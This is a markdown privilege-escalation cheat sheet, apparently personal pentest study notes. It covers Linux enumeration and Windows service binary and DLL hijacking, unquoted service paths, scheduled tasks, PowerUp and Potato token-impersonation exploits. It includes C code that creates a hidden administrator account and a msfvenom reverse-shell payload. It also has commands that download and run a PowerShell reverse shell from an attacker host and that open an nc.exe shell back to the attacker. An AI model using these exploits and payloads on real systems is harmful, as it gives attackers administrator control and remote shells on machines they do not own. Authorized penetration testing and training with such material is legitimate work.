

### Privilege Escalation -
#### Linux
- `sudo -V` → Vulnerable sudo version
- `ls -al /etc/passwd /etc/shadow` → Check if passwd is writable or shadow is readable
- `sudo -l` → Sudoer permission for current user
- `find / -perm /4000 -type f 2>/dev/null` → List of SUID files
- `find / -group <group-user> 2>/dev/null` → Check which file are accessible to current user group
- `cat /etc/crontab` AND `cron -l` AND `ls -lah /etc/cron*` AND `cat /var/log/syslog` AND `/usr/sbin/CRON -f -P`  → Cron job enumeration
- `uname -r` → Vulnerable Kernel Version
	- Use this to find exploit for vulnerable version → [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
#### Windows
- `PS> whoami /priv` → Current user privileges
- `Windows Kernel Exploits` - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits?tab=readme-ov-file)
- **Service Binary Hijacking**
	- Each Windows Service has an associated binary file. These binary files (.exe) are executed when service is started. This method exploits the fact that the binary of running service can be replaced with exploit executable. For demonstration, we will assume our target service is `BinaryService`
    - Identify the Services that are running and path to there binary
	    - `PS> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
		- Alternative - `PS> Get-Service | Select Name,Status | Where-Object {$_.Status -like 'Running'}`
	- Before starting once check if we can restart BinaryService. Or atleast our user has required permissions to reboot system.
		- Check `BinaryService` can be restarted
			- `PS> sc.exe stop BinaryService`
			- `PS> net stop BinaryService`
		- Check system can be rebooted
			- `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
			- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
	- Check permission for suspicious paths found from previous commands (usually not in `C:\Program Files\*`,`C:\Program Files (x86)\*` , but could be)
        - `PS> icacls <Path-to-BinaryService>` - Check if the permission is 'F' or 'M' for Everyone or our BUILTIN\Users
	- If we have modification permission, prepare an exploit executable
        - Executable to add new administrative user - `exploit.c`
          ```
          #include <stdlib.h>
          int main(){
          	int i;
          	i = system("net user dave2 password123! /add");
          	i = system("net localgroup administrators dave2 /add");
          	return 0;
          }
          ```
	        - `Kali> x86_64-w64-mingw32-gcc exploit.c -o exploit.exe` and share `exploit.exe` to target
	    - Reverse shell payload executable
            - `Kali> msfvenom -p windows/shell/reverse_tcp LHOST=<Attacker-IP> LPORT=4444 -f exe > exploit.exe`
			- Share executable with target
			- `Kali> nc -nlvp 4444`
	- Now, we need to replace our exploit with actual service binary. Let the service binary be `binary.exe`.
        - `PS> Move \Path\To\Binary\binary.exe .\binary.exe.bak`
		- `PS> Copy .\exploit.exe \Path\To\Binary\binary.exe`
		- `PS> icacls binary.exe /grant Everyone:F`
	- Perform binary execution
        - If restart of service allowed
            - via sc.exe
                - `PS> sc.exe stop BinaryService`
				- `PS> sc.exe start BinaryService`
			- Alternative -
                - `PS> net stop BinaryService`
				- `PS> net start BinaryService`
		- If restart of service not allowed
            - `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
			- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
			- If all above conditions are satisfied, execute command - `shutdown /r /t 0`
	- Check changes after service restarts
        - `Get-LocalGroupMember Administrators` - Check if `dave` user is added as Administrators user
            - OR
		- `Got reverse shell on port 4444 on local system`
	- Finally, recover original service binary by replacing exploit.
		- `Move \Path\To\Binary\binary.exe .\exploit.exe`
		- `Copy .\binary.exe.bak \Path\To\Binary\binary.exe`
- **Service DLL Hijacking**
	- DLL contains code or resources such as icon files, for other executable files or objects to use. Instead of overwriting a binary, we merely overwrite DLL. This method is used when binary is not writable.
    - Furthermore, there is a another way, a special case of this method is missing DLL i.e. binary attempted to loaded DLL that doesn't exist on system.
    - The search order is defined by Microsoft and determines what to inspect first when searching for DLLs. So, this method is about find the correct spot (Modifiable directory, Missing DLL, Comes earlier in search order than actual DLL) to place our exploit DLL. Standard search order from Microsoft Documentation is -
	    1. The directory from which the application loaded
	    2. The system directory
	    3. The 16-bit system directory
	    4. The Windows directory
	    5. The current directory
	    6. PATH environment variable directory
	-  Identify the Services that are running and path to there binary
	    - `PS> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
		- Alternative - `PS> Get-Service | Select Name,Status | Where-Object {$_.Status -like 'Running'}`
	- Usually for this scenario, we don’t have permission to replace `binary.exe`. Before starting once check if we can restart BinaryService. Or atleast our user has required permissions to reboot system.
		- Check `BinaryService` can be restarted
			- `PS> sc.exe stop BinaryService`
			- `PS> net stop BinaryService`
		- Check system can be rebooted
			- `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
			- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
	- Our goal is to identify all DLLs loaded by `binary.exe`, as well as detect missing once. Once we get the list we can check there permissions and if they can be replaced with malicious DLL. So, if we find such file we can provide our own malicious DLL, by adhering DLL search order.
		- Get Process monitor binary from this [link](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon#download).
        - Process monitor
            - If we have administrator permission, can directly execute `Procmon64.exe`
			- Or else Copy binary.exe to our local Windows system → Install binary.exe
                - `PS> sc.exe delete BinaryService` → If exist, delete service
				- `PS> sc.exe create BinaryService binPath="C:\Users\steve\Desktop\binary.exe"` -> Declare service
			- Launch `Procmon64.exe` → `Create filter : "Process Name is binary.exe then Include"` → Add and Apply
			- Restart BinaryService
                - `PS> Restart-Service BinaryService`
				- Alternative by sc.exe or nc.exe
			- We can observe that various CreateFile Operation were attempted. These operations are used to create or open a file. From records we can see some of them resulted in 'Name not found' i.e. file is missing. These search follow DLL search order.
                - `C:\Users\steve\Documents\myDLL.dll` // Application directory
				- `C:\Windows\System32\myDLL.dll` // System directory
				- `C:\Windows\System\myDLL.dll` // 16-bit system directory
				- `C:\Windows\myDLL.dll` // Windows directory
				- `C:\Users\steve\Desktop\myDLL.dll` // Current Directory
				- `C:\Windows\System32\OpenSSH\myDLL.dll` // PATH environment variable directories
		- `PS> Get-ChildItem -Path C:\ -Include myDLL.dll -File -Recurse -ErrorAction SilentlyContinue` → check if `myDLL.dll` is present on target system
			- `PS> icacls \Path\To\myDLL.dll` → If it is present check if current user has permission to modify myDLL.dll
			- `PS> icacls \All\Search\Order\Paths\` → If not present, check which Search Order Path is Modifiable
		- Prepare exploit DLL File
            - DLL File to Add new administrative user - `exploit.cpp`
				```
				#include <stdlib.h>
				#include <windows.h>
				
				BOOL APIENTRY DllMain(
				HANDLE hModule,// Handle to DLL module
				DWORD ul_reason_for_call,// Reason for calling function
				LPVOID lpReserved ) // Reserved
				{
				    switch ( ul_reason_for_call )
				    {
					case DLL_PROCESS_ATTACH: // A process is loading the DLL.
					    int i;
					    i = system ("net user dave2 password123! /add");
						i = system ("net localgroup administrators dave2 /add");
						break;
						case DLL_THREAD_ATTACH: // A process is creating a new thread.
						break;
						case DLL_THREAD_DETACH: // A thread exits normally.
						break;
						case DLL_PROCESS_DETACH: // A process unloads the DLL.
						break;
				    }
				    return TRUE;
				}
				```
	            - `Kali> x86_64-w64-mingw32-gcc exploit.cpp --shared -o myDLL.dll` and share `myDLL.dll` to target system
		- Now, we need to put `myDLL.dll` at suitable search order path that is modifiable.
		- Perform binary execution
	        - If restart of service allowed
	            - via sc.exe
	                - `PS> sc.exe stop BinaryService`
					- `PS> sc.exe start BinaryService`
				- Alternative -
	                - `PS> net stop BinaryService`
					- `PS> net start BinaryService`
			- If restart of service not allowed
	            - `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
				- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
				- If all above conditions are satisfied, execute command - `PS> shutdown /r /t 0`
		- Check changes after service restarts
	        - `PS> Get-LocalGroupMember Administrators` - Check if `dave2` user is added as Administrators user
		- Finally, recover original service binary by replacing exploit.
- **Unquoted Service Path**
	- If the path of binary, corresponding to target service, contains one or more spaces and is not enclosed within quotes, it may be turned into an opportunity for privilege escalation attack. We can use this attack when we have write permissions to a service's main directory or subdirectories, but can't replace files within them.
    - Eg. When this is passed as path – `C:\Program Files\My Program\My Service\service.exe`  - to CreateProcess function and when Windows try to start service, due to spaces present in path, it will try to execute all these executable strings -
	    - `C:\Program.exe`
        - `C:\Program Files\My.exe`
        - `C:\Program Files\My Program\My.exe`
        - `C:\Program Files\My Program\My Service\service.exe`
    - Identify all running and stopped services and their corresponding path to there binary
	    - `PS> Get-CimInstance -ClassName win32_service | Select Name,State,PathName
		- Alternative - `PS> wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v '"'`
			- Will display all services with binary path outside of C:\Windows\ directory (1st findstr) and that don't contain quotes (2nd findstr) (/i=case insensitive searching, /v=print line that don't match)
	- Before starting once check if we can restart BinaryService. Or atleast our user has required permissions to reboot system.
		- Check `BinaryService` can be restarted
			- `PS> sc.exe stop BinaryService`
			- `PS> net stop BinaryService`
		- Check system can be rebooted
			- `PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BinaryService'}` → Check if StartMode is set to automatic, that will enable us to reboot system (indirectly restart system by rebooting)
			- `PS> whoami /priv` → Our user should have `SeShutDownPrivilege` in list of permissions to reboot system
	- List of the paths Windows uses to attempt locating executable file of the service -
        - `C:\Program.exe`
		- `C:\Program Files\Enterprise.exe`
		- `C:\Program Files\Enterprise Apps\Current.exe`
		- `C:\Program Files\Enterprise Apps\Current Version\binary.exe`
	- `icacls \Path\To\All\Parent\Directory\` → Check permission to all parent directories of `binary.exe` and if any of it has Modification permissions. Let’s say it is `C:\Program Files\Enterprise Apps\`
	- We can transfer same `exploit.exe` payload to `C:\Program Files\Enterprise Apps\Current.exe` that is used in `Service Binary Hijacking` section.
	- If BinaryService is running, restart it or else if stopped, start it - `PS> Start-Service BinaryService`
	- Check changes after service restarts
        - `PS> Get-LocalGroupMember Administrators`
            - OR
		- `Got reverse shell on port 4444 on local system`
	- Finally, recover original service binary by replacing exploit.
- **Scheduled Tasks**
	- List scheduled tasks
	    - `PS> Get-ScheduledTask` - List scheduled tasks with basic information (Binary Path, Name, Status, Author (User Responsible for creating task), Run As User)
        - `PS> schtasks /query /fo LIST /v` - List scheduled task with detailed information (+First Time, Last Time)
    - In this method, we need to identify modifiable path for some service binary and replace it with our exploit executable. After a certain time period, service binary will execute as per schedule.
    - `PS> icacls <Path-to-BinaryService-executable>` → Check if the permission is 'F' or 'M' for Everyone or our BUILTIN\Users for the service binary
	- We can transfer same `exploit.exe` payload to `\Path\To\Binary\binary.exe` that is used in `Service Binary Hijacking` section.
	- Check changes after scheduled task is executed
		- `PS> Get-LocalGroupMember Administrators`
            - OR
		- `Got reverse shell on port 4444 on local system`
	- Finally, recover original service binary by replacing exploit.
- **PowerUp.ps1**
	- `Kali> cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1` 
	- Transfer PowerUp.ps1 to target machine
	- `PS> powershell -ep bypass` → enable execution policy
	- `PS> . .\PowerUp.ps1` → Import powershell script
	- `PS> Get-ModifiableServiceFile` → Along with service name, it provides path, principle, and if we have permission to restart service
	- `PS> Install-ServiceBinary -Name '<Service-Name>'` → May be perform automatic exploitation
- **SeImpersonatePrivilege / SeAssignPrimaryToken enabled**
	- **PrintSpoofer**
	    - `Kali> wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
        - `Kali> python3 -m http.server 80`
        - `PS> iwr -uri http://<IP>/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe`
        - `PS> .\PrintSpoofer64.exe -i -c powershell.exe` → Get Administrative shell
    - **GodPotato**
	    - `Kali> wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe`
	    - `Kali> cp /usr/share/windows-resources/binaries/nc.exe .`
        - `Kali> python3 -m http.server 80`
        - `PS> iwr -uri http://<Attacker-IP>/GodPotato-NET4.exe -Outfile God4.exe`
        - `PS> iwr -uri http://<Attacker-IP>/nc.exe -Outfile nc.exe`
        - `Kali> nc -nlvp 4444`
        - `PS> .\God4 -cmd "nc.exe -e cmd.exe <Attacker-IP> 4444"` → Get Administrative Reverse shell
    - **JuicyPotato**
	    - *Note - JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.*
        - `Kali> wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1`
        - Just simple change in this code is to append this line - `Invoke-PowerShellTcp -Reverse -IPAddress <Attacker-IP> -Port 4444` - at the end of the code.
        - `Kali> wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`
        - Create a new file with name - `exploit.bat` with following code
		```
		powershell.exe -c iex(new-object net.webclient).downloadstring('http://<Attacker-IP>/Invoke-PowerShellTcp.ps1')
		```
        - Transfer `JuicyPotato.exe` and `exploit.bat` to remote system.
        - Gain shell with elevated privileges
	        - Migrate to directory containing Invoke-PowerShellTcp.ps1
            - `Kali> python3 -m http.server 80`
            - `Kali> nc -nlvp 4444`
            - We will need CLSID string to be used while executing JuicyPotato.exe command. For that we will need to know OS Name of target system. This can be obtained by executing command - `systeminfo` . For CLSID , go to this [link](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md), then select the suitable OS Name , and finally get CLSID i.e. `{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}` of `wuauserv` i.e. corresponding to `NT AUTHORITY\SYSTEM` user.
     
            - `PS> .\JuicyPotato.exe -t * -p exploit.bat -c '{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}'`
	            - During execution of this command, the `exploit.bat` available on remote system will be executed that will lead to downloading  `Invoke-PowerShellTcp.ps1` to remote system. Furthermore, `Invoke-PowerShellTcp.ps1` will be executed that will create a reverse shell on attackers machine at port 4444. On checking we will see that the session received is for `nt authority\system` user.
- **SeBackupPrivilege / SeRestorePrivilege enabled**
	- Reference - [SeBackupPrivilege and SeRestorePrivilege exploit](https://2018.romhack.io/slides/RomHack%202018%20-%20Andrea%20Pierini%20-%20whoami%20priv%20-%20show%20me%20your%20Windows%20privileges%20and%20I%20will%20lead%20you%20to%20SYSTEM.pdf)
- **Some Awesome references**
	- [PayloadsAllTheThings Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
	- [Hacktricks Windows Privilege Escalation Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
	- [j4r0code Windows Privilege Escalation Checklist](https://github.com/j4r0-code/Windows_Privilege_Escalation_CheatSheet)
	- [m0chan's Windows Notes and Checklist](https://m0chan.github.io/2019/07/30/Windows-Notes-and-Cheatsheet.html)
	- [Absolomb's Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
